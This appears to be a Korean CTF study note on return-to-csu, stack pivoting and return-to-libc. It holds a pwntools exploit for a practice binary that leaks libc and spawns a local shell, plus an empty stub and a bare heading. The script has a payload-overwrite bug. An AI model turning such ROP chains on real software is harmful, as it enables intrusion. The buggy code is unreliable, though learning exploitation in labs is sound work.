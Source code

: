 # Canary & Stack pivoting & RTC

[선택2]  

## 1 csu_example

프로그램이 실행되기 전에 실행되는 __libc_csu_init() 함수로 return하여 원하는 명령을 실행할 수 있다. 먼저 csu2로 return하여 write의 실제 주소를 출력하기 위한 인자를 입력한 뒤 csu1으로 return한다. 이후 한 번 더 실행되므로 bss영역에 read함수를 쓸 수 있다. 그 다음 rsp에 bss영역의 주소를 넣고 leave와 ret를 하여 stack pivoting을 진행하고, 더미를 입력한 뒤 RTL 하면 쉘을 얻을 수 있다. 


```python
from pwn import *

p = process("./csu_example")
e = ELF("./csu_example")
libc = e.libc

csu1 = 0x4006c0
csu2 = 0x4006d6
write_got = e.got['write']
read_got = e.got['read']
leave_ret = 0x00400672
pop_rdi = 0x004006e3
bss = e.bss() + 0x400

# write(1, write_got, 8)
payload = b'A'*0x100
payload += p64(csu2)
payload += b'B'*0x8
payload += p64(0) #rbx
payload += p64(1) #rbp
payload += p64(write_got) #r12
payload += p64(1) #r13->edi
payload += p64(write_got) #r14->rsi
payload += p64(8) #r15->rdx
payload += p64(csu1)

# read(0, bss, 0x150)
payload += b'C'*0x8
payload += p64(0) #rbx
payload += p64(1) #rbp
payload += p64(read_got) #r12
payload += p64(0) #r13->edi
payload += p64(bss) #r14->rsi
payload += p64(0x150) #r15->rdx
payload += p64(csu1)

# rbp->bss : stack pivoting
payload = b'D'*16
payload += p64(bss)
payload += b'D'*32
payload += p64(leave_ret)

p.send(payload)

write_offset = libc.symbols['write']
system_offset = libc.symbols['system']
p.recvline()
write_addr = u64(p.recv(8).ljust(8, '\x00'))
libc_base = write_addr - write_offset

system_addr = libc_base + system_offset
binsh = libc_base + list(libc.search(b'/bin/sh'))[0]


# system('/bin/sh')
payload = b'E'*8
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(0x004004c6) #ret sled
payload += p64(system_addr)

p.send(payload)


p.interactive()


```



## 2 Pivot2

Stack Pivoting을 이용하여 


```python
from pwn import *

p = process('./pivot2')
e = ELF('./pivot2')
libc = e.libc


bss = e.bss() + 0x400





p.interactive()

```




## 3 rop_master
